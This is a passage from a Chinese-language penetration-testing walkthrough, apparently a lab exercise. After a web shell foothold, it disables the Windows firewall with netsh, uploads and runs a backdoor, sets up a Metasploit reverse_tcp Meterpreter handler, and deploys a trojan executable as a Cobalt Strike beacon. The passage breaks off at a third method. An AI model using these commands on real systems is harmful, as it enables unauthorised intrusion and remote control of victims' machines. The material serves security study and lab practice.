 #### 2、关闭防火墙

**在蚁剑终端这个后门之前，先在终端关闭下防火墙，防止弹窗。**

```
netsh advfirewall set allprofiles state off
```

关闭防火墙后，将后门上传上去，在终端执行

<img src="https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151103840.png" alt="image-20220615110357795" style="zoom:67%;" />

<img src="https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151452717.png" alt="image-20220615145125141" style="zoom:67%;" />

<img src="https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151452461.png" alt="image-20220615145246427" style="zoom:67%;" />

#### 3、获取Web主机权限

##### 方法一：配置MSF

```java
use exploit/multi/handler ///使用exploit/multi/handler进行探测
set payload Windows/meterpreter/reverse_tcp /// 设置payload ‘Windows/meterpreter/reverse_tcp’ 进行监听
show options ///查看下哪些选项需要配置
set LHOST 192.168.72.129 ///设置下主机地址(kali)
run ///开始攻击
```

![image-20220615144814255](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206241053965.png)

##### 方法二：使用Windows Executable

创建木马文件

![image-20220623092417812](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206230924875.png)

利用蚁剑上传文件并执行文件

![image-20220623092614057](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206230926131.png)

![image-20220623092739805](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206230927835.png)

执行成功后，会发现CS里成功上线，我们修改心跳时间为1s，默认为60s

```
sleep 1
或者直接右键修改sleep
```

![image-20220623092828049](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206230928081.png)

![image-20220623092923693](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206230929720.png)

##### 方法三：使用Scripted Web Delivery (S)
